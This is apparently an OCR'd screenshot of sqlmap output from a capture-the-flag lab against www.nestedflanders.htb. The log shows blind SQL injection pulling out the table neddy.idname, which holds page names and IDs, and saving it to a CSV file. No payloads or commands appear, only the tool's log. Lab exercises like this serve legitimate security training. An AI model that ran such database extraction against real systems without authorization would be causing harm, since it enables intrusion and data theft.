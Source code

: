 ```
[18:05:01] [INFO] retrieving the length of query output
[18:05:01] [INFO] retrieved: 1
[18:05:05] [INFO] retrieved: 2
[18:05:12] [INFO] retrieving the length of query output
[18:05:12] [INFO] retrieved: 9
[18:05:24] [INFO] retrieved: about.php
[18:05:24] [INFO] retrieving the length of query output
[18:05:24] [INFO] retrieved: 1
[18:05:28] [INFO] retrieved: 1
[18:05:34] [INFO] retrieving the length of query output
[18:05:34] [INFO] retrieved: 1
[18:05:38] [INFO] retrieved: 3
[18:05:44] [INFO] retrieving the length of query output
[18:05:44] [INFO] retrieved: 11
[18:06:01] [INFO] retrieved: contact.php
[18:06:01] [INFO] retrieving the length of query output
[18:06:01] [INFO] retrieved: 1
[18:06:05] [INFO] retrieved: 0
[18:06:11] [INFO] retrieving the length of query output
[18:06:11] [INFO] retrieved: 2
[18:06:21] [INFO] retrieved: 25
[18:06:21] [INFO] retrieving the length of query output
[18:06:21] [INFO] retrieved: 4
[18:06:31] [INFO] retrieved: main
[18:06:31] [INFO] retrieving the length of query output
[18:06:31] [INFO] retrieved: 1
[18:06:35] [INFO] retrieved: 0
[18:06:41] [INFO] retrieving the length of query output
[18:06:41] [INFO] retrieved: 3
[18:06:51] [INFO] retrieved: 465
[18:06:51] [INFO] retrieving the length of query output
[18:06:51] [INFO] retrieved: 5
[18:07:01] [INFO] retrieved: about
[18:07:01] [INFO] retrieving the length of query output
[18:07:01] [INFO] retrieved: 1
[18:07:05] [INFO] retrieved: 0
[18:07:12] [INFO] retrieving the length of query output
[18:07:12] [INFO] retrieved: 3
[18:07:22] [INFO] retrieved: 587
[18:07:22] [INFO] retrieving the length of query output
[18:07:22] [INFO] retrieved: 7
[18:07:32] [INFO] retrieved: contact
Database: neddy
Table: idname
[6 entries]
+-----+-------------+----------+
| id  | name        | disabled |
+-----+-------------+----------+
| 1   | main.php    | 1        |
| 2   | about.php   | 1        |
| 3   | contact.php | 1        |
| 25  | main        | 0        |
| 465 | about       | 0        |
| 587 | contact     | 0        |
+-----+-------------+----------+

[18:07:32] [INFO] table 'neddy.idname' dumped to CSV file '/root/.sqlmap/output/www.nestedflanders.htb/dump/neddy/idname.csv'               
[18:07:32] [INFO] fetched data logged to text files under '/root/.sqlmap/output/www.nestedflanders.htb'
[*] ending @ 18:07:32 /2019-08-23/
```
<br>